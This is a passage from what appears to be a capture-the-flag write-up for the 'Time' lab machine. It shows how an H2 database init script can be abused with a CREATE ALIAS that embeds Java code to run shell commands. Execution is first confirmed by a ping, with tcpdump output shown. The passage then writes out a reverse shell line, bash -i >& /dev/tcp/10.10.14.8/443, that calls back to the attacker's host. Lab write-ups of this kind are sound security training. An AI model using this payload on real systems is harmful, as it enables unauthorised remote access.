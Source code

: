 The init script can’t run Java, only SQL statements. However, that can be worked around, as within SQL, it is allowed to define an alias containing Java code. In the example about, it defines `SHELLEXEC` using Java code to execute a command, and then in the last line calls it with a payload to write the output of `id` to a file.

Since I can’t read a file from Time (well, maybe, but really no - see [Beyond Root](#beyond-root)), I’ll try a `ping`:

```

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping -c 1 10.10.14.8')

```

I’ll update the URL in the JSON, and submit:

```
10.10.10.214 - - [09/Feb/2021 19:24:54] "GET /ping.sql HTTP/1.1" 200 -

```

A second later, at `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:24:58.130520 IP 10.10.10.214 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
19:24:58.130534 IP 10.10.14.8 > 10.10.10.214: ICMP echo reply, id 1, seq 1, length

```

It worked. I’ve got RCE.

### Shell

I’ll create a copy of the script, `rev.sql`, and add a reverse shell:

```

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"')

```
